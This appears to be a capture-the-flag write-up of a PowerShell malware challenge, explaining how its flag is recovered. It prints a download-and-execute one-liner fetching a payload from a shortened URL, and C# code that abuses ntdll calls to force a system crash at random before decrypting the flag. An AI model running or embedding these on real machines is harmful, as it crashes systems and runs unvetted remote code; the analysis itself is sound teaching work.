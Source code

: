 ![russian-roulette-ss1.png](russian-roulette-ss1.png)

# Russian Roulette -- Malware  

Author: @JohnHammond  

My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(  

WARNING: Please examine this challenge inside of a virtual machine for your own security. Upon invocation there is a real possibility that your VM may crash.  

NOTE: Archive password is russian_roulette  

Download the file(s) below.  
```russian_roulette.zip```
```
##	Extract russian_roulette.zip on Windows 10 VM --> file is a powershell shortcut with parameters containing malware payload

##	Read Shortcut > Properties > Target, convert Base64, remove null
	iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
##	This is an Invoke-WebRequest to download and run payload
##	Reverse engineering not helpful in this challenge due to obfuscation
```

## SOLUTION:  
Open Event Viewer, run the provided challenge Shortcut, view PowerShell logs  
Retry if crash  

Command line details included in log, or find very long Base64 and convert  
This is PowerShell script code that creates the flag and spawns new powershell, but will sometimes crash (1/6 chance) hence russian_roulette  
```
$s='using System;
using System.Text;
using System.Security.Cryptography;
using System.Runtime.InteropServices;
using System.IO;
public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);
[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);
public static unsafe string Shot(){bool o;
uint r;
RtlAdjustPrivilege(19,true,false,out o);
NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);
byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");
using(Aes a=Aes.Create()){a.Key=k;
a.IV=i;
ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);
using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';
$c=New-Object System.CodeDom.Compiler.CompilerParameters;
$c.CompilerOptions='/unsafe';
$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;
if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"

##	Simplify script to use only the crypto flag parts and not crash
##	Run in Powershell as Administrator
$s = @"
using System;
using System.Security.Cryptography;
using System.IO;
public class Decryptor
{
    public static string Decrypt()
    {
        byte[] c = Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
        byte[] k = Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
        byte[] i = Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");

        using (Aes a = Aes.Create())
        {
            a.Key = k;
            a.IV = i;
            using (ICryptoTransform d = a.CreateDecryptor(a.Key, a.IV))
            using (var m = new MemoryStream(c))
            using (var y = new CryptoStream(m, d, CryptoStreamMode.Read))
            using (var reader = new StreamReader(y))
            {
                string decryptedText = reader.ReadToEnd();
                return decryptedText; // Return the decrypted text
            }
        }
    }
}
"@
$c = New-Object System.CodeDom.Compiler.CompilerParameters
$c.CompilerOptions = '/unsafe'
$a = Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c
# Call the Decrypt method and capture the result
$result = & $a::Decrypt() 
Write-Host "Decrypted Result: $result" # Output the result to the console
```
Modify with ```Write-Host``` and fixes to print variable directly to console.
> flag
